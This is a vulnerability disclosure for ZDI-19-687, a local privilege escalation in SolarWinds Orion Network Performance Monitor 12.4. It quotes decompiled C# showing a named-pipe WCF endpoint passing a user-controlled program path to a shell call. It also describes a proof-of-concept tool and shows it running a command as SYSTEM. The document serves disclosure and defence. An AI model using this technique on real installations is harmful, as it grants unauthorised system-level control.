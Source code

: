 # SolarWinds Orion Network Performance Monitor ExecuteExternalProgram Privilege Escalation (ZDI-19-687)

March 20, 2019

## Tested Versions:

SolarWinds Orion Network Performance Monitor 12.4 (Evaluation) on Windows Server 2016 x64, .NET 4.7.2
Download: https://downloads.solarwinds.com/solarwinds/OfflineInstallers/RTM/NPM/Solarwinds-Orion-NPM-12.4-Eval-OfflineInstaller.exe

## Vulnerability Details:

SolarWinds Orion Network Performance Monitor (NPM) is network monitoring software designed to reduce
network outages and improve performance. It is used to provide monitoring, alerting, reporting, and basic
management of a network. Upon installation, the application deploys multiple services, namely the SolarWinds
Orion Module Engine service hosted in the SolarWinds.BusinessLayerHost.exe process. This service exposes
many locally and remotely accessible endpoints used by other components of the application to perform core tasks.

The SolarWinds Orion Module Engine service is built using the Windows Communication Foundation (WCF)
framework. WCF is a framework for building service-oriented applications revolving around three main concepts - 
addresses, bindings, and contracts. These are well explained here: 
https://docs.microsoft.com/en-us/dotnet/framework/wcf/fundamental-concepts

An elevation of privilege vulnerability exists in SolarWinds Orion Network Performance Monitor. The SolarWinds
Orion Module Engine service registers a locally accessible WCF endpoint with a named pipe binding at the
following address:

`net.pipe://localhost/orion/core/businesslayer`

Accessible at this endpoint is the "CoreBusinessLayer" service contract which is outlined by the ICoreBusinessLayer
interface:

SolarWinds.Orion.Core.Common.dll:
```csharp
namespace SolarWinds.Orion.Core.Common
{
  [ServiceContract(Name = "CoreBusinessLayer", Namespace = "http://schemas.solarwinds.com/2008/Core")]
  [Audit]
  [Hubble]
  [I18N]
  public interface ICoreBusinessLayer : IDisposable
  {
     ...
     [OperationContract(Name = "InvokeActionMethod")]
     [NetDataContractFormat]
     [FaultContract(typeof(CoreFaultContract))]
     string InvokeActionMethod(string actionTypeID, string methodName, string args);
     ...
 }
}
```
In this service contract is the "InvokeActionMethod" operation contract which allows you to invoke certain 'actions' and 
'methods', namely "ExecuteExternalProgram". If a low privilege user runs a WCF client that creates a channel to the above 
endpoint then calls InvokeActionMethod with an actionTypeID of "ExecuteExternalProgram" and methodName of "ValidateAccess", 
InvokeMethod() in the following code will be called:

SolarWinds.Orion.Core.Actions.dll:
```csharp
namespace SolarWinds.Orion.Core.Actions.Impl.ExecuteExternalProgram {
  [Export(typeof(IActionMethodInvoker))]
  internal class ExecuteExternalProgramInvoker: IActionMethodInvoker, IAction {
   ...
   public string InvokeMethod(string methodName, string args) {
    if (methodName == "ValidateAccess") {
     // parse provided args as ExecuteExternalProgramConfiguration
     ExecuteExternalProgramConfiguration config =
        SerializationHelper.FromXmlString<ExecuteExternalProgramConfiguration>(args);
     return SerializationHelper.ToXmlString(this.ValidateAccessToFile(config), new Type[] {
        typeof(bool)
     });
    }
    ...
   }

   private bool ValidateAccessToFile(ExecuteExternalProgramConfiguration config) {
    try {
     if (config.Credentials == null) {
      // ProgramPath in config is user controlled
      if (!this.ExecuteWithoutCredentials(config.ProgramPath)) {
       return false;
      }
     } else {
      ...
     }
    }
    ...
   }
   
   private bool ExecuteWithoutCredentials(string filename) {
     // arbitrary code execution with user-provided separameter
     return Interaction.Shell(filename, AppWinStyle.Hide, false, 120000) > 0;
   }
    ...
  }
}
```
The `args` parameter will be parsed as a serialized `ExecuteExternalProgramConfiguration` and its `ProgramPath` property 
passed directly to `Interaction.Shell` resulting in arbitrary code execution as NT AUTHORITY\SYSTEM. A low privilege user 
can use this to elevate privileges to SYSTEM.

## Remediation:

The application must secure named pipes to ensure that low privileged users are unable to access privileged endpoints.

## Proof of Concept:

A proof-of-concept, orion.exe (compiled from orion.cs), has been provided to demonstrate the impact 
of the vulnerability. It expects the following syntax:

`orion.exe <command>`

Upon executing orion.exe with a provided command, the command will be executed as NT AUTHORITY\SYSTEM by the Orion 
Module Engine service (SolarWinds.BusinessLayerHost.exe). 

Example output:
```
C:\Users\low_priv\Desktop\poc>orion.exe "cmd.exe /c whoami > C:\Users\low_priv\Desktop\poc\priv.txt"

[i] Address: net.pipe://localhost/orion/core/businesslayer
[i] Creating ChannelFactory<ICoreBusinessLayer>...
[i] Creating channel to address...
[i] Executing InvokeActionMethod("ExecuteExternalProgram")...
[i] Success! Output: <boolean xmlns="http://schemas.microsoft.com/2003/10/Serialization/">true</boolean>

C:\Users\low_priv\Desktop\poc>type priv.txt
nt authority\system

C:\Users\low_priv\Desktop\poc>whoami
win-ndrt3c7lrir\low_priv
```
## Shoutouts

Fabius Watson and his excellent WCF research (https://versprite.com/author/fabius-watson/)
